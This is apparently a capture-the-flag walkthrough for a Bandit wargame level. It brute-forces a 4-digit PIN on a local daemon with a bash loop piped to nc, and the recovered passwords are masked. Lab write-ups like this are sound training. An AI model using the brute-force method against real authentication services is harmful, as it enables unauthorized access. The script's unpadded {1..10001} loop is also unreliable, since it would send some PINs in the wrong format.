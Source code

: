 # Level 24 → Level 25

### Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

You do not need to create new connections each time

### Solution:

* We write a bash script with password for bandit24 and numbers from 1 to 10000

```bash
$ grep -v text
is used to ignore when incorrect combinations for pincode is printed with text Wrong! Please enter the correct pincode. Try again.
```

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">bandit24@bandit:/tmp$ vi script.sh 
bandit24@bandit:/tmp$ cat script.sh
#!/bin/bash
for i in {1..10001} 
    do
        echo "**previous pass** $i"
    done
bandit24@bandit:/tmp$ chmod 700 script.sh
bandit24@bandit:/tmp$./script.sh | nc localhost 30002 | grep -v "Wrong! Please enter the correct p incode. Try again."
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the sec ret pincode on a single line, separated by a space.
Correct!
<strong>The password of user bandit25 is *****pass******
</strong>Exiting.
</code></pre>

